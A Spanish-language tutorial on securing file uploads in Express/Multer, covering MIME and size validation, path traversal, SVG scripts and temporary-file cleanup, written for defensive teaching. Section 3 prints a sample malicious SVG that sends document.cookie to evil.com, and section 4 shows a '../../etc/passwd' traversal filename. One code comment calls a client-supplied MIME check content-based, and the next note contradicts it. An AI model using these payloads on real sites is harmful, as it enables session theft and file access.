

# Seguridad en File Uploads

## 🎯 Objetivos

- Entender los vectores de ataque específicos de los file uploads
- Implementar validación robusta: MIME type, extensión, tamaño
- Evitar path traversal y ejecución de archivos maliciosos
- Gestionar archivos temporales correctamente

## 📋 ¿Por Qué los Uploads Son Peligrosos?

Los endpoints de upload de archivos son uno de los vectores de ataque más frecuentes.
Un upload mal configurado puede permitir:

- **Remote Code Execution (RCE)**: Subir un archivo `.js` o `.php` ejecutable
- **Path Traversal**: Escribir archivos fuera del directorio esperado
- **DoS por tamaño**: Archivos enormes que saturan disco o memoria
- **Almacenamiento de contenido malicioso**: Malware disfrazado de imagen
- **SVG con JavaScript embebido**: XSS a través de imágenes SVG



## 1. Validación de MIME Type (capa más importante)

### ❌ Incorrecto — validar solo por extensión

```ts
// INSEGURO: un atacante puede renombrar malware.exe → photo.jpg
const fileFilter = (req, file, cb) => {
  const ext = path.extname(file.originalname).toLowerCase();
  if (['.jpg', '.jpeg', '.png'].includes(ext)) {
    cb(null, true);
  } else {
    cb(new Error('Extensión no permitida'));
  }
};
```

### ✅ Correcto — validar por MIME type

```ts
// SEGURO: el MIME type lo lee el cliente del contenido real del archivo
const imageFileFilter: multer.Options['fileFilter'] = (req, file, cb) => {
  const allowedMimes = new Set([
    'image/jpeg',
    'image/png',
    'image/webp',
    'image/gif',
  ]);

  if (!allowedMimes.has(file.mimetype)) {
    cb(new Error(`Tipo de archivo '${file.mimetype}' no permitido`));
    return;
  }
  cb(null, true);
};
```

> **Nota**: El MIME type en Multer viene del header `Content-Type` del cliente, no del contenido binario real. Para máxima seguridad usa `file-type` para detectar el MIME real desde el buffer después de recibir el archivo.

### Validación adicional con `file-type` (opcional avanzado)

```ts
import { fileTypeFromBuffer } from 'file-type';

export async function validateRealMimeType(
  buffer: Buffer,
  allowedMimes: string[]
): Promise<void> {
  const detected = await fileTypeFromBuffer(buffer);

  if (!detected || !allowedMimes.includes(detected.mime)) {
    throw new AppError(400, `Tipo de archivo no permitido: ${detected?.mime ?? 'desconocido'}`);
  }
}
```

## 2. Límite de tamaño

```ts
const upload = multer({
  storage: multer.memoryStorage(),
  limits: {
    fileSize: 5 * 1024 * 1024,   // 5 MB por archivo
    files: 1,                     // Máximo 1 archivo por request
    fields: 10,                   // Máximo 10 campos no-archivo
  },
});
```

### ¿Por qué limitar también `fields`?

Sin límite en `fields`, un atacante puede enviar miles de campos en un solo
request para intentar un ataque de DoS al parser de Multer.

## 3. Bloquear SVG con JavaScript

Los archivos SVG son XML y pueden contener `<script>` tags:

```xml
<!-- SVG malicioso — ejecuta JavaScript en el navegador si se sirve como imagen -->
<svg xmlns="http://www.w3.org/2000/svg">
  <script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
</svg>
```

**Solución**: No aceptar `image/svg+xml` a menos que sea estrictamente necesario.
Si debes aceptar SVG, sanitizar el contenido con `dompurify` antes de almacenarlo.

## 4. Evitar path traversal en diskStorage

Si usas `diskStorage`, nunca uses `file.originalname` directamente como nombre en disco:

```ts
// ❌ INSEGURO — path traversal
filename: (req, file, cb) => {
  cb(null, file.originalname);
  // Un atacante puede enviar: originalname = "../../etc/passwd"
}

// ✅ SEGURO — generar nombre propio sin usar el originalname
filename: (req, file, cb) => {
  const ext = path.extname(file.originalname).replace(/[^.a-zA-Z0-9]/g, '');
  const safeName = `upload-${Date.now()}-${crypto.randomBytes(8).toString('hex')}${ext}`;
  cb(null, safeName);
}
```

## 5. No servir archivos subidos como ejecutables

Si usas `diskStorage` y sirves los archivos estáticos con `express.static`:

```ts
// ❌ PELIGROSO — si alguien sube un .html con scripts, se ejecutará
app.use('/uploads', express.static('uploads'));

// ✅ SEGURO — forzar Content-Type de descarga
app.use('/uploads', (req, res, next) => {
  res.setHeader('Content-Disposition', 'attachment');
  res.setHeader('X-Content-Type-Options', 'nosniff');
  next();
}, express.static('uploads'));
```

> **Mejor solución**: No servir archivos directamente desde el servidor. Usar Cloudinary, S3 u otro CDN donde los archivos se sirven con headers de seguridad correctos.

## 6. Gestión de archivos temporales

Con `memoryStorage`, el buffer existe solo durante la request. No hay archivo temporal.

Con `diskStorage`, el archivo se escribe en disco aunque la validación falle después:

```ts
// ❌ El archivo ya está en disco aunque el controller lance un error
export async function uploadProduct(req, res, next) {
  try {
    if (!req.file) throw new AppError(400, 'No se envió archivo');
    await productService.create(req.body); // puede fallar
  } catch (err) {
    // req.file.path aún existe en disco — memory leak
    next(err);
  }
}

// ✅ Limpiar el archivo temporal en caso de error
export async function uploadProduct(req, res, next) {
  try {
    if (!req.file) throw new AppError(400, 'No se envió archivo');
    await productService.create(req.body);
  } catch (err) {
    // Eliminar archivo temporal si existe
    if (req.file?.path) {
      fs.unlink(req.file.path, () => {}); // non-blocking delete
    }
    next(err);
  }
}
```

## 7. Resumen de checklist de seguridad

| Riesgo | Mitigación |
|--------|-----------|
| Archivo ejecutable disfrazado | Validar MIME type en `fileFilter` |
| Archivo demasiado grande (DoS) | `limits.fileSize` y `limits.files` |
| SVG con JavaScript embebido | Excluir `image/svg+xml` o sanitizar |
| Path traversal en nombre de archivo | Generar propio nombre en `diskStorage` |
| Credenciales de storage expuestas | Variables de entorno, nunca hardcode |
| Archivos temporales huérfanos | Limpiar en bloque `catch` |
| Contenido malicioso en producción | Servir desde CDN, no desde el servidor |

## ✅ Checklist Final

- [ ] `fileFilter` rechaza tipos MIME no permitidos
- [ ] `limits.fileSize` configurado
- [ ] No se usa `file.originalname` como nombre en disco
- [ ] `.env` tiene credenciales de Cloudinary/S3 (nunca en código)
- [ ] SVG no aceptado sin sanitización previa
- [ ] Archivos temporales eliminados en caso de error

## 📚 Recursos Adicionales

- [OWASP File Upload Vulnerabilities](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [npm: file-type](https://github.com/sindresorhus/file-type)
- [npm: dompurify (sanitizar SVG)](https://github.com/cure53/DOMPurify)
